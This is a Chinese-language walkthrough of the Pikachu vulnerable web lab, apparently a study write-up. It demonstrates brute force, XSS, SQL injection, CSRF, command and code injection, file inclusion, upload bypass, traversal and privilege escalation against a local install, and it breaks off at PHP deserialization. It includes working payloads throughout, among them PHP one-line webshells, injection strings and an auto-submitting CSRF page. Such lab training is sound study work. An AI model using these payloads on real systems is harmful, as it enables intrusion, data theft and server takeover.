








# 一、靶场搭建
## 准备工具

- **phpstudy**
- **pikachu靶场下载地址：**https://github.com/zhuifengshaonianhanlu/pikachu

<br>

## 搭建过程

将靶场文件夹放到phpstudy的www目录
	

<br>

进入pikach文件夹的inc目录，修改靶场配置文件`config.inc.php`，设置数据库账号密码均为`root`


<br>

启动phpstudy后访问本机ip目录下的install.php文件,进行安装初始化



<br>

# 二、暴力破解

## 1、基于表单的暴力破解

这种属于无验证码的情况，可直接抓包暴力破解


<br>

## 2、基于前端的验证码绕过(On client)

这种将验证码的生成代码写在前端上是十分容易绕过的
	

<br>	

验证码输入错误的情况下是不能抓包的，需先输入正确的验证码再抓包


<br>

然后再将数据包发送到爆破功能处，并且将验证码参数去除掉后再进行爆破
	

	

<br>

## 3、基于服务器的验证码绕过(On server)

有些服务器后台是不刷新验证码的，所以抓到包后不要放包，这样验证码就一直有效，把包发到攻击模块直接爆破
	
		


<br>

## 4、绕过Token暴力破解

**token的作用：**简单来说就是服务器给前端发的身份证，前端向服务器发送请求时都要带上这个身份证，服务器通过这个身份证来判断是否是合法请求

抓包发送给暴力破解模块，攻击类型选择==pitchfork(音叉)==，需爆破的内容为密码和token。

> 攻击类型为音叉的时候，例如你要爆破账号和密码，你的账号字典为123,456；你的密码字典为147,258。那么你爆破的次数就为2次了，分别是(123,147),(456,258)，也就是说账号字典和密码字典是一一对应的

<br>	

修改密码的payload，添加密码的爆破字典	


			

<br>

修改token的payload，点击选项里的`Grep—Extract`的添加，然后点击获取回复，选中token的值复制，然后点击OK
	


​	

将token的payload类型设置成递归搜索，在递归搜索选项中的`第一个请求的初始有效负载`设置为之前复制的token


攻击后，通过响应的长度和内容判断是否爆破成功


<br>

# 三、XSS跨站请求攻击

## 1.反射性xss(get)

修改输入框的前端代码(输入框最大允许长度),否者XSS代码不能全部填进去


<br>

随后输入xss弹框代码：`<script>alert(1)</script>`


<br>

## 2.反射性xss(post)

和前面差不多一样，先登录进去，然后输入弹cookie的xss代码

```
<script>alert(document.cookie)</script>
```
		

	

<br>

## 3.存储型xss

直接在留言框输入xss代码	

	

	

<br>

## 4.Dom型Xss

简单说一下什么是Dom型xss吧，就是向文档对象传入xss代码参数，然后操作文档对象时就会触发xss攻击

分析一下前端网页代码，可以发现输入框里的参数会被传递给A标签的href属性


点击A标签，触发xss弹框


	

<br>

## 5.xss之过滤

`script`关键字被过滤,换个其他的标签就可以了,换个`img`标签,代码如下

```

```

	

<br>

## 6.xss之htmlspecialchars

简单说一下`specialchars`这个函数吧，就是把单引号，双引号，尖括号过滤了，但是这个函数默认是不过滤单引号的，只有将quotestyle选项为ENT_QUOTES才会过滤单引号。

输入框的值会成为a标签的href属性，那么xss语句为:`javascript:alert(1)`,就可以绕过了


<br>

# 四、Sql注入

## 搜索型注入

闭合符号为`%'`,  注入payload: `g%'  union select database(),2,3#`


<br>

## xx型注入

闭合符号变成了`')`, 注入payload:`test') union select user(),database()#`


<br>

## insert注入

用户注册页面是insert注入，payload：`' and extractvalue(1,concat(0x7e,(database()))) and '1'='1`

	

<br>

## delete注入

在留言版可以输入留言内容, 然后点击删除按钮可以刚刚留言的内容删掉


<br>

使用burpsuite抓取点击删除的数据包, 将id参数修改成要注入的payload: `57 or updatexml(1,concat(0x7e,database()),0)` , 由于注入参数是get方式提交的, 因此需对id参数进行url编码, 编码后为`57+or+updatexml(1,concat(0x7e,database()),0)`


<br>

## http header注入

有些时候后台开发人员会验证前端发送来的请求头信息(如`useragent`、`accept`等), 然后将这些信息使用SQL语句进行处理, 若没有作严格的安全考虑, 则会导致`http header`的SQL注入漏洞

首先登录账号, 登录账号后会在页面显示用户请求头信息

	

<br>

抓取该页面的数据包,将user-agent的值改为单引号`'`, 页面显示报错信息代表此处存在注入

	

<br>

将user-agent的值改为`' or updatexml(1,concat(0x7e,database()),0) or '` ，注入成功爆出当前数据库


<br>

也可以将cookie的值改为`' or updatexml(1,concat(0x7e,database()),0) or '` 来实现注入

	

<br>

## 宽字节注入

抓取POST请求的数据包, 将name参数的值改为`kobe%df' union select database(),2#` , 页面注入成功爆出当前数据库名称


<br>	

# 五、CSRF跨站请求伪造

## CSRF攻击原理

CSRF(Cross-site request forgery)跨站请求伪造，也被称为“One Click Attack”或者"Session Riding"，通常缩写为CSRF或者XSRF

尽管听起来跟XSS好像差不多, 其实这两者是完全不同的。在CSRF的攻击场景中攻击者会伪造一个请求(该请求通常为url链接), 然后欺骗用户去点击, 若用户点击了那么整个攻击流程就结束了, 这也就是为何CSRF被称为"One Click Attack"

与XSS攻击相比，CSRF攻击往往不大流行, 因此对其进行防范的资源也相当稀少和难以防范，所以被认为比XSS更具危险性。

<br>

## 基于get请求

首先随便登录一个账号: `vince/allen/kobe/grady/kevin/lucy/lili`, 密码均为`123456`, 然后使用burpsuite抓取修改个人信息的数据包, 或者F12打开控制台切换至Network进行抓包

我们将抓取到的url的请求参数修改成自己的, 例如将邮箱参数修改成`hacker@qq.com`, 那么构成的CSRF攻击payload为`http://127.0.0.1/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=18626545453&add=chain&email=hacker@qq.com&submit=submit`




<br>

若用户点击了上述伪造的url, 则会将用户自己的邮箱修改成`hacker@qq.com`


<br>

## 基于post请求

虽然POST请求无法通过伪造URL进行攻击, 但是可以通过伪造恶意网页, 将伪造的POST请求隐藏在恶意网页的表单中, 然后诱引用户点击按钮提交表单, 数据自然就POST至存在CSRF漏洞的网页, 最终用户的信息会被修改

此处运行CSRFTESTER工具来制作恶意网页, 首先浏览器配置网络代理, 监听本机的8008端口,然后在CSRFTESTER点击`Start Recording`开始抓包

	

<br>

抓到修改个人信息的数据包后, 在CSRFTESTER删除除了POST请求的其他数据, 将类型修改成`POST`, 然后点击下面的`Generate HTML`生成HTML文件

	

<br>

找到生成的HTML文件并对其编辑, 将下面那行`<input type="hidden" name="submit" value="submit"/>`修改成`<input type="submit" name="submit" value="submit"/>`, 然后其他POST参数都可自行设置, 这里我将电话号码修改成了`999999999`

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

<html>
<head>
<title>OWASP CRSFTester Demonstration</title>
</head>

<body onload="javascript:fireForms()">
<script language="JavaScript">
var pauses = new Array( "30" );

function pausecomp(millis)
{
    var date = new Date();
    var curDate = null;

    do { curDate = new Date(); }
    while(curDate-date < millis);
}

function fireForms()
{
    var count = 1;
    var i=0;
    
    for(i=0; i<count; i++)
    {
        document.forms[i].submit();
        
        pausecomp(pauses[i]);
    }
}
    
</script>
<H2>OWASP CRSFTester Demonstration</H2>
<form method="POST" name="form0" action="http://127.0.0.1:80/pikachu/vul/csrf/csrfpost/csrf_post_edit.php">
<input type="hidden" name="sex" value="girl"/>
<input type="hidden" name="phonenum" value="999999999"/>
<input type="hidden" name="add" value="chain"/>
<input type="hidden" name="email" value="hacker@qq.com"/>
<input type="submit" name="submit" value="submit"/>
</form>

</body>
</html>
```

<br>

在浏览器打开生成的恶意网页, 当用户点击submit按钮后, 用户的个人信息就会被修改

	

<br>

## Token验证			

造成CSRF漏洞的主要原因是请求敏感操作的数据包容易被伪造, 其实只要在每次请求时都增加一个随机码(`Token`), 在每次前端与后端进行数据交互时后台都要对这个随机码进行验证, 以此来防护CSRF攻击

查看token_get_edit.php的源码, 发现有一个`set_token()`函数, 该函数每次刷新页面都会被调用, 然后将SESSION中的token销毁, 并生成新的token发送至前端表单中

```html
<div id="per_info">
   <form method="get">
   <h1 class="per_title">hello,{$name},欢迎来到个人会员中心 | <a style="color:bule;" href="token_get.php?logout=1">退出登录</a></h1>
   <p class="per_name">姓名:{$name}</p>
   <p class="per_sex">性别:<input type="text" name="sex" value="{$sex}"/></p>
   <p class="per_phone">手机:<input class="phonenum" type="text" name="phonenum" value="{$phonenum}"/></p>    
   <p class="per_add">住址:<input class="add" type="text" name="add" value="{$add}"/></p> 
   <p class="per_email">邮箱:<input class="email" type="text" name="email" value="{$email}"/></p>
       
   <input type="hidden" name="token" value="{$_SESSION['token']}" />
       
   <input class="sub" type="submit" name="submit" value="submit"/>
   </form>
</div>
```

<br>

在每次提交表单时, 前端页面的token值都会传送至后台与SESSION中的token进行对比验证, 由于黑客不知道用户当前的token值, 从而无法进行CSRF攻击

	

<br>

## 其他防范措施

- 在进行提交表单的操作增加验证码
- 设置会话管理机制, 例如15分钟后无操作则自动退出登录
- 修改敏感信息需对身份证进行二次验证, 例如修改密码时需输入旧密码
- 修改敏感信息使用POST请求而不是使用GET请求
- 通过HTTP请求头的Referer来限制原页面

<br>

# 六、RCE漏洞攻击

## RCE攻击原理

RCE(remote command/code execute)漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统


### 远程命令执行

一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口, 比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上

一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。若设计者在完成该功能时没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器

现在很多的甲方企业都开始实施自动化运维,大量的系统操作会通过"自动化运维平台"进行操作

<br>

### 远程代码执行

同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。                    

<br>

## 命令连接符

### 不同连接符的含义

在Windows和Linux中有四种命令连接符, 分别是`|`、`||`、`&`、`&&`

| 连接符   | 描述                                                         |
| -------- | ------------------------------------------------------------ |
| `a | b`  | 不管a命令是否执行成功, 都会去执行b命令                       |
| `a || b` | 若a命令执行成功, 则不执行b命令<br />若a命令执行失败, 才会执行b命令 |
| `a & b`  | 不管a命令是否执行成功, 都会去执行b命令                       |
| `a && b` | 若a命令执行成功, 才会执行b命令<br />若a命令执行失败, 则不执行b命令 |

<br>

### 使用实例

#### 1.`a | b`

```
ping 127.0.0.1 | whoami
```

	

<br>	

#### 2.`a || b`

```
ping 127.0.0.1 || whoami  #前面命令执行成功,不执行后面命令
ping a.b.c.d || whoami #前面命令执行失败,执行后面命令
```

	

	

<br>

#### 3.`a & b`

```
#不管前面的命令是否执行成功都会执行后面的命令
ping 127.0.0.1 & whoami  
ping a.b.c.d & whoami  
```

	

	

<br>

#### 4.`a && b`

```
ping 127.0.0.1 && whoami #前面的命令执行成功,执行后面的命令
ping a.b.c.d && whoami  #前面的命令执行失败,不执行后面的命令
```

	

		

<br>

## 远程命令执行

### 查看源码

查看rce_ping源码文件, 可发现`$_POST['ipaddress']`变量未经任何安全处理就传给了`$ip`, 由此造成了远程命令执行漏洞

	

<br>

### 利用步骤

首先输入个IP地址, 后台会对用户输入的IP地址进行一次ping测试并返回结果, 由此我们可以确定该处存在远程命令执行漏洞


<br>

输入`127.0.0.1 | whoami`, 返回指向whoami的结果

	

<br>

## 远程代码执行

### 查看源码

`$POST['txt']`未经任何过滤处理就作为`eval`函数的参数, 由此造成远程代码执行漏洞

	

<br>

### 攻击步骤

输入`phpinfo();`, 随后后台会使用php解析器去解析此代码 

	

输入`fputs(fopen('shell.php','w'),'<?php assert($_POST[123]);?>');`, 会在当前网页所在目录生成一句话木马文件, 后续可用webshell管理工具进行连接

		

·

<br>

# 七、文件包含漏洞		

## 概述

文件包含是一个功能, 在各种开发语言都提供了内置的文件包含函数, 这使得开发人员可在一个代码文件中引用另外一个文件的代码, 如php中就提供了`include()`,`include_once()`,`require()`,`require_once()`

虽然文件包含函数中包含的文件代码是固定的, 但是有些时候文件包含的代码文件被写成了一个变量, 且该变量由前端传入, 若该变量没有做安全防护, 则可能引发文件包含漏洞

文件包含漏洞又分为本地文件包含和远程文件包含

<br>

## 本地文件包含

### 原理

仅对服务器本地的文件进行包含, 由于服务器上的文件并不是攻击者所能控制得, 因此在攻击的过程中更多的是包含系统的配置文件(如密钥文件), 或者配合文件上传漏洞去形成更大的威力

<br>

### 访问任意文件

在当前网页所在的文件目录有一个file6.php文件

	

<br>

读取file6.php文件内容:`http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=file6.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`	

	

<br> 

### 配合文件上传getshell

使用imgTrjs工具将一句话代码`<?php @eval($_POST['123']);?>`写入图片中

	

<br>

在文件上传处上传带有恶意代码的图片, 随后返回图片的相对路径:`uploads/ImgTrjs.jpg`


<br>

包含不存在的文件导致报错:`http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=file7.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`

从报错信息可看出文件包含函数用的是include(), 被包含的文件路径为`pikachu\vul\fileinclude\include\file7.php`


<br>

由于文件处于`/include`目录下, 故不能使用绝对路径, 需转换成相对路径, 最终包含木马图片的payload如下

```
http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/ImgTrjs.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```


<br>

使用蚁剑连接webshell, 连接url地址为:`http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/ImgTrjs.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`, 连接密码为`123`

		

<br>

## 远程文件包含

### 原理

能通过url地址对远程的文件进行包含, 这也意味着攻击者可以传入任意的代码

与此同时远程包含漏洞还能包含本地文件的绝对路径或相对路径

<br>

### 远程生成Webshell

首先生成一个文本文件部署在服务器上, 这里为了方便测试, 我选择放在phpstudy的根目录下, 文件内容为`<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[123]);?>');?>`, 文件的url地址为`http://127.0.0.1/GenerateWebshell.txt`

		

<br>

最终构成的远程包含payload为`http://127.0.0.1/pikachu/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/GenerateWebshell.txt&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`

网页访问该payload后会在`fi_remote.php`的同级目录下生成shell.php文件, 后续可用蚁剑进行连接


<br>

# 八、文件下载漏洞

## 概述

在很多网站上都有文件下载功能, 当我们点击下载链接时便会向后台发送一个请求, 该请求一般会包含需要下载的文件名, 后台收到请求后便会执行下载代码, 若后台没有对文件名进行安全判断的话, 则可能引发文件下载漏洞

例如, 攻击者提交的并不是常规的文件名称, 而是一个精心构造的路径(如`../../etc/passwd`), 那么就会导致敏感文件被下载

<br>

## 利用步骤

例如此处我在网站的根目录创建一个flag.txt文件, 现在要做的是如何通过文件下载漏洞来实现跨目录访问此文件

		

<br>

通过查看下载文件的地址来可知, 其所处文件目录是`/pikachu/vul/unsafedownload/download/`

	

<br>

而我们要读取的文件在根目录下(`/WWW`目录), 所以flag.txt的相对路径为`../../../../flag.txt`,  最终构成的文件下载payload为`http://127.0.0.1/pikachu/vul/unsafedownload/execdownload.php?filename=../../../../flag.txt`

	

<br>

# 九、文件上传漏洞

## 概述

如今很多网站都会有文件上传功能, 例如上传头像、附件等等

当用户点击上传文件按钮时，后台会对上传的文件进行安全判断，例如是否是指定的类型、后缀名或大小等等, 然后将其按照设计的格式进行重命名后存储在指定的目录

若后台对上传的文件没有进行任何的安全判断或者判断条件不够严谨, 则很可能会被黑客上传恶意文件导致网站被getshell

<br>

## 前端验证

### 绕过思路

查看此关卡的html源码可知, 这是在前端通过js脚本对上传文件的后缀名进行验证，通过设置黑、白名单限制用户上传的文件类型。

可以通过拦截修改数据包轻松绕过，甚至直接在浏览器关闭js都可以绕过

	

<br>

### 方法1:抓包修改文件后缀

首先新建一个txt文本文件并写入webshell代码, 将其后缀名修改成jpg

	

<br>

使用burpsuite拦截上传shell.jpg的数据包, 随后将后缀名jpg修改成php后再放包, 文件上传成功后返回文件的相对路径`uploads/shell.php`


<br>

### 方法2: 浏览器禁用javascript	

打开火狐浏览器，网址搜索框输入`about:config`, 将`JavaScript.enabled`设置为`false`

	

<br>

可以直接上传后缀名为php的文件

	

<br>

## MIME验证

### 绕过思路

如下代码所示为此关卡用于MIME验证的php源码, 由此可知MIME是通过判断你的文件类型(而不是后缀名)来决定是否允许你上传文件，只需抓包修改`content_type`值就能绕过验证

```php
if(isset($_POST['submit'])){
//     var_dump($_FILES);
    $mime=array('image/jpg','image/jpeg','image/png');//指定MIME类型,这里只是对MIME类型做了判断。
    $save_path='uploads';//指定在当前目录建立一个目录
    $upload=upload_sick('uploadfile',$mime,$save_path);//调用函数
    if($upload['return']){
        $html.="<p class='notice'>文件上传成功</p><p class='notice'>文件保存的路径为：{$upload['new_path']}</p>";
    }else{
        $html.="<p class=notice>{$upload['error']}</p>";
    }
}
```

<br>

### 利用方法

使用burpsuite抓取上传shell.php的数据包, 将`content_type`的值修改为`image/jpeg`, 随后放包

	

	

<br>

## getimagesize()验证	

### 绕过思路

`getimagesize()`函数会通过读取文件头部的几个字符串(即文件头), 来判断是否为正常图片的头部

可通过制作图片木马或再木马文件内容头部添加`GIF89a`(Gif图片文件头), 然后利用文件包含漏洞来解析图片木马

<br>

### 利用步骤

在图片木马的文件内容头部添加`GIF89a`, 保存为`shell.jpg`文件, 随后将此文件上传后会返回文件的相对地址`uploads/2022/11/29/5326166385b74ff01e3044955456.jpg`

	

	

<br>

由此可知木马图片的url地址为`http://127.0.0.1/pikachu/vul/unsafeupload/uploads/2022/11/29/5326166385b74ff01e3044955456.jpg`


<br>

利用文件包含漏洞解析此图片木马: `http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/2022/11/29/5326166385b74ff01e3044955456.jpg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2`, 后续可用蚁剑进行连接


<br>

# 十、越权漏洞

## 概述

使用权限高的用户去操作权限低的用户的行为称为"越权",越权漏洞形成的原因是后台使用了 不合理的权限校验规则导致的		

越权漏洞通常出现在需要权限才能操作的页面, 例如增加,删除,修改,查询等等, 后台会对当前的用户权限进行检验, 从而给出响应, 若检验的规则过于简单则容易出现越权漏洞

越权漏洞又分为水平越权和垂直越权:

- 水平越权: A用户和B用户属于同一级别的用户, 但各自都不能操作对方的个人信息。若A用户能够越权操作B用户的个人信息, 这种情况我们称之为"水平越权"
- 垂直越权: A用户权限高于B用户, B用户能对A用户进行操作的情况称为"垂直越权"

<br>

## 水平越权

首先登录lucy用户, 然后点击个人信息, 查看当前url为:`http://127.0.0.1/pikachu/vul/overpermission/op1/op1_mem.php?username=lucy&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF#`


<br>

修改当前url的参数, 将`username=lucy`改成`username=lili`, 即`http://127.0.0.1/pikachu/vul/overpermission/op1/op1_mem.php?username=lili&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF#`


<br>

## 垂直越权

首先登录超级管理员用户`admin/123456`，使用burpsuite抓取添加用户的数据包并发送至Repeater模块	


<br>

登录普通用户`pikachu/000000`, 按F12查看当前用户Cookie值为`r0audj31vere8ak4063bbp7vr2`	

		

<br>

返回burpsuite的Repeater模块, 打开上述抓到的数据包, 将Cookie值修改为pikachu用户的Cookie, 然后点击发送


<br>

之后返回页面查看用户列表可发现多了一个用户Hacker

	

<br>

# 十一、目录遍历漏洞	

## 概述

在web功能设计中,很多时候我们会要将需要访问的文件定义成变量, 然后传递给后台, 后台再执行对应的文件, 若后台没有对前端传来的文件变量进行严格的安全考虑, 则攻击者可能会通过"`../`"这样的手段让后台打开或执行攻击者指定的文件, 从而形成目录遍历漏洞

需要区分一下的是,如果你通过不带参数的url(如`http://xxxx/doc`)列出了doc文件夹里面所有的文件，这种情况，我们称为敏感信息泄露。而并不归为目录遍历漏洞

<br>

## 利用实例

在网站的根目录新建一个flag.txt文件来进行测试

	

<br>

访问存在目录遍历漏洞的页面`http://127.0.0.1/pikachu/vul/dir/dir_list.php?title=jarheads.php`, 可发现title参数是实现目录遍历的关键变量


<br>

随便输入一个值传递给title参数, 页面爆出目录为`E:\phpStudy\WWW\pikachu\vul\dir\soup`		


<br>

构造读取flag.txt的url:`http://127.0.0.1/pikachu/vul/dir/dir_list.php?title=../../../../flag.txt`	

	

<br>	

# 十二、敏感信息泄露

## 概述

由于后台人员的疏忽或者不当的设计，导致不应该被前端用户看到的数据被轻易的访问到

- 通过访问url下的目录，可以直接列出目录下的文件列表
- 输入错误的url参数后报错信息里面包含操作系统、中间件、开发语言的版本或其他信息
- 前端的源码（html,css,js）里面包含了敏感信息，比如后台登录地址、内网接口信息、甚至账号密码等

<br>

## IcanseeyourABC

查看网页源码, 发现注释有测试用户的账号密码`lili/123456`


<br>

成功登录测试用户

	

	

<br>

# 十三、PHP反序列化漏洞

## 概述

PHP涉及反序列化漏洞的函数主要有两个, 分别是`serialize()`和`unserialize()`

<br>

### serialize序列化

序列化简单来说就是将一个对象转换成可以传输的字符串

例如下面的代码, 将对象DemoClass转换成一段字符串: `O:9:"DemoClass":3:{s:4:"name";s:5:"henry";s:3:"sex";s:3:"man";s:3:"age";i:7;}`

> O: 代表对象object
>
> 9: 代表对象名字的长度为3
>
> 3: 代表对象里有3个变量
>
> s: 表示数据类型为String
>
> 4: 表示变量名称的长度
>
> i: 表示数据类型为INT

```php
<?php
class DemoClass{
